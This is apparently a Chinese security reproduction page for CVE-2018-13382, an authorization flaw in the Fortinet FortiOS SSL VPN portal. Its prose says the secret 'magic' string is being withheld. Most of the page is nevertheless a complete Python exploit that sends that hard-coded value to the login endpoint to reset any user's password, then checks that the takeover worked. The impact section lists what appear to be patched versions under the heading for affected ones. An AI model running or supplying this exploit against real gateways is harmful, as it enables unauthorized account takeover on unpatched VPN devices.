 ```yaml
---
title: "（CVE-2018-13382）Fortinet FortiOS magic后门"
id: zhfly2948
---
```


# （CVE-2018-13382）Fortinet FortiOS magic后门

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

## 三、复现过程

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![image](../img/9a5b0e2e151d1fcdc36b7a30b92f5cb8.png)

根据我们的调查，仍有大量的Fortigate SSL VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) reversed & exploited by our colleagues [@niph_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and [@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch your [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw) asap and see the [#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw) talk of [@orange_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw) and [@mehqq_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for details (tnx guys for the teaser that got us started) [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
> 
> — Code White GmbH (@codewhitesec) [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

```
$ python CVE-2018-13382.py  -h
Usage: CVE-2018-13382.py [options]

Options:

-h, --help   show this help message and exit

-i IP        e.g. 127.0.0.1:10443

-u USERNAME

-p PASSWORD 
```

```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True

userAgent=generate_user_agent()
username=""
newpassword=""
ip=""

def setColor(message, bold=False, color=None, onColor=None):
	from termcolor import colored, cprint
	retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
	return retVal

def checkIP(ip):
	try:
		url = "https://"+ip+"/remote/login?lang=en"
		headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
		r=requests.get(url, headers=headers, verify=False)
		if r.status_code==200 and "<title>Please Login</title>" in r.text:
			return True
		else:
			return False
	except requests.exceptions.ConnectionError as e:
		print e
		return False

def changePassword(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
		return True
	else:
		return False

def testLogin(ip,username,newpassword):
	url = "https://"+ip+"/remote/logincheck"
	headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
	data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
	r=requests.post(url, headers=headers, data=data, verify=False)
	if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
			return True
	else:
		return False

parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
	print "[!] Please provide the ip (-i), username (-u) and password (-p)"
	sys.exit()
if options.username:
	username=options.username
if options.password:
	newpassword=options.password
if options.ip:
	ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
	print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
	if changePassword(ip,username,newpassword)==True:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")	
		if testLogin(ip,username,newpassword)==True:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
			print "************** Enjoy your new credentials **************\n"
		else:
			print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
	else:
		print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")			
else:
	print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red") 
```